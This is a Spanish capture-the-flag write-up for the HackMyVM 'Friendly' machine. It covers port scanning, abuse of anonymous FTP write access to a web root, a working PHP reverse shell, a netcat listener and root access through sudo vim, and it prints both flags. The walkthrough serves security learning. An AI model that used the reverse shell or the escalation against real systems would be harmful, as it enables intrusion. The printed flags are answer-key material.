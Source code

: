 ```yaml
---
icon: flag
---
```


# Friendly  HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-13 03:24 EDT
Nmap scan report for 192.168.5.16
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.54 (Debian)
MAC Address: 08:00:27:A2:9F:C0 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds
```

Veremos que hay un puerto `FTP` y un puerto `80` solamente, si entramos en el puerto `80` no veremos gran cosa ya que veremos una pagina web por defecto de `apache2`, vamos a probar a conectarnos por `FTP` de forma anonima.

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estaremos dentro, si listamos el servidor veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||46275|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11  2023 .
drwxrwxrwx   2 root     root         4096 Mar 11  2023 ..
-rw-r--r--   1 root     root        10725 Feb 23  2023 index.html
226 Transfer complete
```

Vemos algo interesante, vamos a probar a subir un archivo al `FTP` en esta parte ya que parece que el servidor esta compartiendo los archivos `web` y esto puede ser una vulnerabilidad enorme.

> test.txt

```
Texto de prueba
```

Ahora lo subiremos al servidor `FTP` de esta forma:

```shell
put test.txt
```

Una vez subido, vamos desde la `web` a dicho archivo a ver si esta funcionando.

```
URL = http://<IP>/test.txt
```

Info:

```
Texto de prueba
```

Veremos que si esta funcionando de forma correcta, por lo que vamos a probar a subir un archivo en `PHP` para generarnos una `reverse shell` a ver si interpreta `PHP` de forma correcta.

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora lo subiremos de la misma forma que estabamos haciendo antes.

```shell
put webshell.php
```

Info:

```
local: webshell.php remote: webshell.php
229 Entering Extended Passive Mode (|||21741|)
150 Opening BINARY mode data connection for webshell.php
100% |****************************************************************************************************************|   112        1.00 MiB/s    00:00 ETA
226 Transfer complete
112 bytes sent in 00:00 (32.90 KiB/s)
```

Una vez que lo hayamos subido, antes de meternos, vamos a ponernos a la escucha de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Ahora si nos vamos al siguiente archivo `web`.

```
URL = http://<IP>/webshell.php
```

Y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.16] 47722
whoami
www-data
```

Vemos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora podremos leer la `flag` del usuario bien.

> user.txt

```
b8cff8c9008e1c98a1f2937b4475acd6
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Vemos que podemos ejecutar el binario `vim` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo vim -c ':!/bin/bash'
```

Info:

```
root@friendly:/home/RiJaba1# whoami
root
```

Con esto ya seremos `root` por lo que leeremos la `flag` del `root`.

```shell
find / -name "root.txt" 2>/dev/null
```

Info:

```
/var/log/apache2/root.txt
```

> root.txt

```
66b5c58f3e83aff307441714d3e28d2f
```
